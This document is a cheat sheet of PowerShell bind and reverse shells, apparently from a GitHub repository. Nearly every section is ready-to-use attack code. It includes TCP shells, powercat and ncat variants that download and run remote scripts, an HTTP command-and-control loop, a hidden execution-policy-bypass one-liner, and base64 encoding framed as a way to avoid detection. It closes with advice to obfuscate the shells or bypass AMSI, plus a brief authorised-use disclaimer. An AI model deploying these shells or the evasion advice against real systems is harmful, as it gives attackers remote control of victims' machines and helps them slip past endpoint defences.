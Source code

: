 Here's a list of common PowerShell bind and reverse shells that can be used in different scenarios. These scripts will allow you to either connect to a remote system (**reverse shell**) or listen for incoming connections (**bind shell**). Each example is designed to work in different situations, such as limited access environments or leveraging native PowerShell capabilities.

# Bind Shells

## PowerShell Bind Shell
This bind shell listens on the target system for incoming connections.

### Parameters
- **Target's Port:** `<target_port>`

```powershell
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, <target_port>);
$listener.Start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$buffer = New-Object byte[] 1024;
$encoding = [System.Text.Encoding]::ASCII;

while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $cmd = $encoding.GetString($buffer, 0, $bytesRead);
    $output = (Invoke-Expression -Command $cmd 2>&1 | Out-String);
    $writer.WriteLine($output);
    $writer.Flush();
}
```

### Usage
To connect to the bind shell from the attacker’s machine, use:
```bash
nc <target_ip> <target_port>
```

## PowerShell Bind Shell Using Powercat

```powershell
## Install powercat (if not installed already)
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

## Start bind shell
powercat -l -p <target_port> -e cmd.exe
```

### Usage
To connect to the bind shell from the attacker’s machine:
```bash
nc <target_ip> <target_port>
```

# Reverse Shells

## Basic PowerShell Reverse Shell
This reverse shell connects back to an attacker's machine.

### Parameters
- **Attacker's IP:** `<attack_ip>`
- **Attacker's Port:** `<attack_port>`

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<attack_ip>', <attack_port>);
$stream = $client.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$buffer = New-Object byte[] 1024;
$encoding = [System.Text.Encoding]::ASCII;

while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $cmd = $encoding.GetString($buffer, 0, $bytesRead);
    $output = (Invoke-Expression -Command $cmd 2>&1 | Out-String);
    $writer.WriteLine($output);
    $writer.Flush();
}
```

### Usage
On the attacker's machine, you can use `nc` (Netcat) to listen for a connection:
```bash
nc -lvp <attack_port>
```

## Encrypted PowerShell Reverse Shell (Base64 Encoded)
This method avoids detection by encoding the shell commands.

### Parameters
- **Attacker's IP:** `<attack_ip>`
- **Attacker's Port:** `<attack_port>`

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<attack_ip>', <attack_port>);
$stream = $client.GetStream();
$buffer = New-Object byte[] 1024;
$encoding = [System.Text.Encoding]::ASCII;

while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $cmd = $encoding.GetString($buffer, 0, $bytesRead);
    $output = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes((Invoke-Expression $cmd 2>&1 | Out-String)));
    $outputBytes = [System.Text.Encoding]::ASCII.GetBytes($output + "`n");
    $stream.Write($outputBytes, 0, $outputBytes.Length);
}
```

### Usage
On the attacker’s machine:
```bash
nc -lvp <attack_port>
```
Then use a base64 decoder to decode the output.

## PowerShell Reverse Shell Using Powercat
**Powercat** is a PowerShell reimplementation of `netcat` and provides easy reverse and bind shell capabilities.

### Parameters
- **Attacker's IP:** `<attack_ip>`
- **Attacker's Port:** `<attack_port>`

```powershell
## Install powercat (if not installed already)
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

## Start reverse shell
powercat -c <attack_ip> -p <attack_port> -e cmd.exe
```

### Usage
On the attacker's machine:
```bash
nc -lvp <attack_port>
```

## PowerShell Reverse Shell with Ncat (Nmap)
Using **ncat** from the Nmap package to catch a reverse shell.

### Parameters
- **Attacker's IP:** `<attack_ip>`
- **Attacker's Port:** `<attack_port>`

```powershell
$process = Start-Process "ncat" -ArgumentList "-e cmd.exe <attack_ip> <attack_port>" -NoNewWindow -PassThru;
```

### Usage
On the attacker's machine, use **ncat** to listen:
```bash
ncat -lvp <attack_port>
```

## PowerShell Web Reverse Shell
This reverse shell sends commands via HTTP POST requests to a web server (attacker).

### Parameters
- **Attacker's IP:** `<attack_ip>`

```powershell
while ($true) {
    $command = Invoke-RestMethod -Uri http://<attack_ip>/cmd;
    $output = Invoke-Expression $command 2>&1 | Out-String;
    Invoke-RestMethod -Uri http://<attack_ip>/output -Method POST -Body $output;
    Start-Sleep -Seconds 5;
}
```

### Usage
Set up a web server on the attacker's machine and serve commands via the `/cmd` endpoint. Collect the output from the `/output` endpoint.

## One-Liner PowerShell Reverse Shell

If you need to execute a reverse shell in a single line:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object System.Net.Sockets.TCPClient('<attack_ip>',<attack_port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

## Encoded PowerShell Reverse Shell One-Liner
This version uses encoded commands to avoid detection or bypass restrictions.

### Encode the script
```bash
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Your_PowerShell_Script_Here'))
```

### Example

```bash
powershell -EncodedCommand <encoded_command>
```

Replace `<encoded_command>` with the base64-encoded PowerShell command from the script you want to execute.




## Notes
1. Replace the placeholders `<attack_ip>`, `<attack_port>`, and `<target_port>` with actual values for your scenario.
2. These shells are typically detected by antivirus or endpoint protection systems. You may need to obfuscate the scripts or employ AMSI bypass techniques to avoid detection.
3. Always test these commands in a safe environment, and only use them for legal penetration testing or authorized red team activities.